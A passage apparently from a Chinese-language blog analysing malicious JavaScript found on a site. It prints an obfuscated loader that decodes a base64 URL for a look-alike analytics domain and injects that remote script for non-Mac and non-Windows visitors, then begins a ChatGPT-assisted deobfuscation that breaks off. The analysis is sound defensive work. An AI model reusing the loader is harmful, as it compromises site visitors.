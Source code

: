 ``` js
      t = t + String.fromCharCode(i);
    }
  }
  return MqMqY(t);
}
eval("window")["klodTq"] = function () {
  (function (u, r, w, d, f, c) {
    var x = HHwbhL;
    u = decodeURIComponent(x(u.replace(new RegExp(c + "" + c, "g"), c)));
    ("jQuery");
    k = r[2] + "c" + f[1];
    ("Flex");
    v = k + f[6];
    var s = d.createElement(v + c[0] + c[1]),
      g = function () {};
    s.type = "text/javascript";
    {
      s.onload = function () {
        g();
      };
    }
    s.src = u;
    ("CSS");
    d.getElementsByTagName("head")[0].appendChild(s);
  })(
    "aHR0cHM6Ly93d3cuZ29vZ2llLWFuYWl5dGljcy5jb20vZ3RhZ3MuanM=",
    "gUssQxWzjLAD",
    window,
    document,
    "DrPdgDiahyku",
    "ptsrhUDHCv"
  );
};
if (
  !/^Mac|Win/.test(navigator.platform) &&
  document.referrer.indexOf(".") !== -1
)
  klodTq();
```

把上面直接丟到 ChatGPT 要他幫你轉成可讀性佳的程式碼，就會得到底下的結果：

``` js
// Function to decode a UTF-8 string
function decodeUtf8(input) {
  let output = "";
  let i = 0, r, c1, c2, c3;

  while (i < input.length) {
    r = input.charCodeAt(i);

    if (r < 128) {
      output += String.fromCharCode(r);
      i++;
    } else if (r > 191 && r < 224) {
      c2 = input.charCodeAt(i + 1);
      output += String.fromCharCode(((r & 31) << 6) | (c2 & 63));
      i += 2;
    } else {
      c2 = input.charCodeAt(i + 1);
      c3 = input.charCodeAt(i + 2);
      output += String.fromCharCode(((r & 15) << 12) | ((c2 & 63) << 6) | (c3 & 63));
      i += 3;
    }
```